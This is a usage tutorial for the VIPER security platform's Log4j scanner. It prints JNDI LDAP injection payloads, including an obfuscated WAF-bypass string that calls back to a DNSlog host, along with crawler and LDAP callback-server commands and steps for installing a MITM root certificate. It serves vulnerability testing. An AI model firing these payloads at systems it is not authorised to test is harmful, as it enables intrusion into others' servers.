

# Using VIPER to Scan Log4j Vulnerabilities (Active Scanning / Passive Scanning)

# Functional Features

## Passive Scanning

+ Automatically replace GET request parameters with Payload
+ Automatically replace POST request parameters with Payload
+ Automatically replace values in POST request JSON with Payload
+ Automatically skip password fields
+ Automatically add Payload to headers (based on dictionary polling)
+ Payload includes original Payload and Payload that bypasses WAF
+ Supports two callback modes: DNSLOG and LDAPServer (LDAPServer is more suitable for internal network self-check)

```plain
${jndi:ldap://ed3bf69b5e9611ec.xxx.ceye.io/hi}

${${c:Xy:-j}${Kp:W:q:-n}${dzD:-d}${UQt:-i}${GT:-:}${s:hzr:e:-l}${e:ZSJ:yd:-d}${fA:kBl:c:-a}${Hbn:q:-p}${f:Uu:-:}${HOB:-/}${Ijk:E:-/}${dfG:-e}${F:dSj:JE:-d}${Z:-3}${BOI:Yrf:-b}${Yt:S:-f}${DKB:-6}}${Z:-b}${xdB:XBZ:-5}${dW:-e}${uC:-6}${OC:KVJ:j:-1}${L:o:-1}${jhr:-e}${d:-c}${Gi:nUE:AX:-.}${vuo:hy:Srz:-9}${xv:-f}${KG:-p}${xm:-p}${My:aQw:-b}${Mz:Xr:-j}${Z:wWt:-.}${Kx:D:-c}${Y:-e}${j:-y}${xOm:-e}${Cn:-.}${N:Tx:de:-i}${hT:h:P:-o}${qi:yx:i:-/}${j:-h}${Qfp:-i}}
```

+ The Payload contains UUID, and the specific request content that triggers the vulnerability can be found according to the DNSLOG record.

## Active Scanning

+ Use chrome headless + crawler to automatically obtain all requests on the page and import them into the passive proxy to achieve automated scanning.
+ Command

```plain
.\crawlergo.exe -c./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

# Usage Tutorial

## Passive Scanning

+ Update the VIPER version to `v1.5.10`
+ Start VIPER


+ Set the browser proxy to viperip:28888


+ Enable the Log4j2 module in "Passive Scanning"


+ Open the target website through the browser and click around and enter information at will.


+ VIPER's background will automatically replace the entered values with Payload.
+ Log in to the DNSlog platform and observe whether there are records.


+ Copy the UUID information in the red box and query in the main page.


+ The query result contains the specific request that can trigger the vulnerability.


## Active Scanning

+ Update the VIPER version to `v1.5.10`
+ Start VIPER


+ Enable the Log4j2 module in "Passive Scanning"


+ Here, it is assumed that the website to be tested is [http://target.com](http://target.com).
+ Install crawlergo [https://github.com/Qianlitp/crawlergo](https://github.com/Qianlitp/crawlergo)
+ Start the crawler and send the traffic to VIPER's proxy.

```plain
.\crawlergo.exe -c./chrome.exe -t 3 --push-to-proxy http://viperip:28888 http://target.com
```

+ Wait for the crawler to finish.
+ Log in to the DNSlog platform and observe whether there are records.


+ Copy the UUID information in the red box and query in the main page.


+ The query result contains the specific request that can trigger the vulnerability (<font style="color:#E8323C;">This request is automatically sent by Crawlergo</font>).


## Using LDAPServer for Callback

+ Update the VIPER version to `v1.5.10`
+ Start VIPER


+ Set the browser proxy to viperip:28888


+ Enable the Log4j2 module in "Passive Scanning"


+ Configure DNSLOG as `VPSIP:1387` here.


+ Execute the following command to start VIPER's built-in LDAPServer.

```plain
docker exec -it viper-c bash
python3 /root/viper/STATICFILES/Tools/ldapserver.py -p 1387
```


+ Open the target website through the browser and click around and enter information at will.


+ The VIPER background will automatically replace the input value with Payload.
+ The LDAPServer will receive the back-connection request and print the request UUID.


+ Copy the uuid information in the red box and query in the main page.


+ The query result contains specific requests that can trigger vulnerabilities.



##  

## Testing HTTPS websites

+ Update the VIPER version to `v1.5.10`.
+ Start VIPER.


+ Set the browser proxy to viperip:28888.


+ Open the browser at [http://mitm.it/](http://mitm.it/).


+ Download the certificate corresponding to the platform and install it (taking Windows as an example).


+ Do not fill in any information.


+ Here, you need to select a trusted root certificate.


+ Please delete the corresponding certificate from the system configuration after the test is completed.


